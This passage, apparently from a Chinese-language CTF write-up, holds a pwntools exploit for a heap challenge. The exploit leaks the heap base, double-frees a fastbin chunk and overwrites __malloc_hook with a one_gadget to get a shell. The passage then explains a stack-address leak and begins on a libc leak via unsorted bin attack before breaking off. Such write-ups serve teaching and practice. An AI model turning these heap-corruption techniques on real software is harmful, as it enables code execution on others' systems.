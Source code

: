 ```python

heap_base = u64(search("\x10", "n")[10:18]) - 0x1010	#first chunk - 0x1010 = heapbase
log.info("heap_base: " + hex(heap_base))

index("bbbb "+"b"*0x5b)	#4 bytes for replace	and top chunk +0xd0
index("cccc "+"c"*0x5b)	#top chunk + 0xd0
index("dddd "+"d"*0x5b)	#top chunk + 0xd0
search("bbbb", "y")
search("cccc", "y")
search("dddd", "y")

search(p32(heap_base+0x11c0), "y")	#double free the sentence chunk:'cccc'

# malloc_hook
payload = p64(libc_base + 0x3c4aed)	#__malloc_hook - 0x23

# free hook
# payload = p64(libc_base+0x3c6795)
index(payload+p8(0)*0x58)
index("B"*0x60)
index("C"*0x60)

payload = p8(0)*3
payload += p64(0)*2		#0x13 bytes
payload += p64(libc_base+0xcd0f3)	#one_gadget
payload += "\x00"*(0x60-len(payload))
index(payload)			#when malloc the struct word(0x40), it will jump to one_gadget

p.interactive()
```
#### 3.1.0	读取size大小时无NULL结尾导致可以实现栈泄露
在调用Index函数创建单词时，有一个函数`read_num`用于读取输入字符串的长度，当输入的不是字符不是数字时将会输出字符，并提醒重新输入，但是上一次输入的字符仍然会存储在栈中，并且结尾不会添加NULL字符，同时会将字符存储的地址存在开始字符的前8个字节处。这样，当第二次输入时将此时的数组空间（40 bytes）占满，那么输出字符时，由于没有NULL字符截断，就会在40个字符后面紧跟着将栈地址输出，实现栈地址泄露：
```python
def leak_stack():
    p.sendline('A'*4)
    p.recvuntil('Quit\n')
    p.recvline()

    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)
```
不过这个漏洞在本次分析的exp中并没有用到，写在这里权作记录。
#### 3.1.1	libc地址泄露

在exp中，libc地址泄露的方法是通过unsorted bin attack得到。

首先通过第一个index和search，可以得到两个0x20大小的fastbin：
